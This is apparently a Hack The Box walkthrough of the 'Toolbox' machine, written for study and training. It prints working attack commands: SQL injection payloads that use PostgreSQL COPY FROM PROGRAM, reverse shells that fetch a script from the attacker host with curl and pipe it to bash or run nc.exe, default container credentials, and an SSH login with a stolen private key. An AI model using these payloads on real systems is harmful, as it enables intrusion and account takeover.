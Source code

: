 **Skills Required**
Basic Web Knowledge
**Skills Learned**
Leveraging PostgreSQL SQL Injection for RCE
Docker Toolbox Exploitation

Port 21 FTP
Port 22 SSH
Port 445 SMB
Port 5985 WinRM
Port 443 SSL

Since port 445 SMB is open, I use "crackmapexec" to gather more information about the target machine:

```
crackmapexec smb 10.10.10.236
SMB         10.10.10.236    445    TOOLBOX          [*] Windows 10.0 Build 17763 x64 (name:TOOLBOX) (domain:Toolbox) (signing:False) (SMBv1:False)
```

I can also use "smbmap" to try to list the shared resources on the victim machine:

```
smbmap -H 10.10.10.236 -u 'null'
```

However, I get access denied, so I would need valid credentials.

Continuing with enumeration, since port 443 is open, I can use OpenSSL to inspect the certificate and find more information, such as domain names, among other things:

```
openssl s_client -connect 10.10.10.236:443
```

I find a domain name, so I save it in my hosts file.

I check the website and encounter a login panel. I try SQL injection payloads and find that the authentication panel is vulnerable and is using PostgreSQL. I use payloads from the website "hacktricks" to confirm if it's vulnerable to SQL injection:

```
username=';select pg_sleep(10);-- -&password='
```

Having confirmed the vulnerability, I can try to inject commands. In PostgreSQL, I can try to create a table and execute commands:

```
username=';CREATE+TABLE+cmd_exec(cmd_output+text);--+-&password='
```

I can try to inject a command that connects to a network share via SMB on my machine and runs Netcat to establish a reverse shell:

```
# Victim machine
username=';COPY+cmd_exec+FROM+PROGRAM+'\\10.10.14.4\smbfolder\nc.exe+-e+cmd+10.10.14.4+1234';--+-&password='
# My machine
smbserver smbfolder $(pwd) -smb2support
```

This doesn't work, so I suspect the machine behind is Linux, maybe a Linux container. I play with Curl to download my malicious file that executes a reverse shell:

```bash
# On my machine
nvim shell
-----
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.4/1234 0>&1
-----
python -m http.server 80
rlwrap nc -nlvp 1234

# Victim machine
username=';COPY+cmd_exec+FROM+PROGRAM+'curl+http://10.10.14.4/shell|bash';--+-&password='
```

This way, I gain access to a container. Now, I need to escape the container to gain access to the Windows machine.

Going back to the initial port enumeration, port 22 is active, and it has a binary called "docker-toolbox." Investigating this binary, I discover default credentials, so I try them:

```
ssh docker@172.17.0.1
tcuser
```

This gives me access to another Docker container. While enumerating directories, I find a directory named "c" with a structure similar to Windows. Inside the "Administrator" directory, I find an SSH private key (id_rsa). I can try to connect to the Windows machine using this key:

```bash
# On my machine
nvim id_rsa
chmod 600 id_rsa
ssh -i id_rsa Administrator@10.10.10.236
```

This way, I gain access as the Administrator to the Windows machine and can consider the Toolbox machine on Hack The Box completed.
